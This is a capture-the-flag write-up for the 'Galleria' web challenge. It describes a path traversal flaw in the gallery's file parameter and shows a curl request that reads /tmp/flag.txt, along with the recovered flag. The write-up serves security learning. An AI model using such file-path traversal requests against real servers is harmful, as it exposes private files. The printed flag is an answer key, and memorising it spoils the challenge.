

# Galleria

### Challenge:
##### Put up some fun images for everyone in this amazing image gallery!

##### Links: [https://galleria.chal.nbctf.com](https://galleria.chal.nbctf.com)
##### Files: [galleria.zip](galleria.zip)

### Solution:

There's a path traversal vuln when choosing the file to be displayed so we can just input the path of the flag (we can get the path by looking at the source code):

```bash
$ curl https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```

Flag: ```nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}```